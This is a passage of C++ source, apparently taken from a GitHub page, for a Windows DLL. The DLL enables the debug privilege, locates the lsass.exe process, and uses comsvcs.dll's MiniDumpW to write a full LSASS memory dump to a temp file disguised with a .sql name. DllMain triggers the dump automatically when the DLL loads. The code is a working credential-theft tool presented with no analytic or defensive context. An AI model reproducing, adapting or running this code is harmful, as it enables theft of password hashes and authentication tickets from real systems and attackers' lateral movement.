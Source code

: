 ```cpp
    OpenProcessToken(hThis, TOKEN_ADJUST_PRIVILEGES, &hToken);
    LUID luid;
    LookupPrivilegeValue(0, TEXT("seDebugPrivilege"), &luid);
    TOKEN_PRIVILEGES priv;
    priv.PrivilegeCount = 1;
    priv.Privileges[0].Luid = luid;
    priv.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
    AdjustTokenPrivileges(hToken, false, &priv, sizeof(priv), 0, 0);
    CloseHandle(hToken);
    CloseHandle(hThis);
    return true;
}

int Dump() {
    EnableDebugPrivilege();
    WCHAR commandLine[MAX_PATH];
    _MiniDumpW MiniDumpW;
    DWORD lsassPID = 0;
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 processEntry = {};
    processEntry.dwSize = sizeof(PROCESSENTRY32);
    LPCWSTR processName = L"";
    //遍历lsass.exe 的PID
    if (Process32First(snapshot, &processEntry)) {
        while (_wcsicmp(processName, L"lsass.exe") != 0) {
            Process32Next(snapshot, &processEntry);
            processName = processEntry.szExeFile;
            lsassPID = processEntry.th32ProcessID;
        }
    }
    
    MiniDumpW = (_MiniDumpW)GetProcAddress(LoadLibrary(L"comsvcs.dll"), "MiniDumpW");
    _itow(lsassPID, commandLine, 10);
    lstrcatW(commandLine, L" C:\\Windows\\Temp\\111.sql full");
    MiniDumpW(0, 0, commandLine);
    return 0;
}

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        Dump();
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```
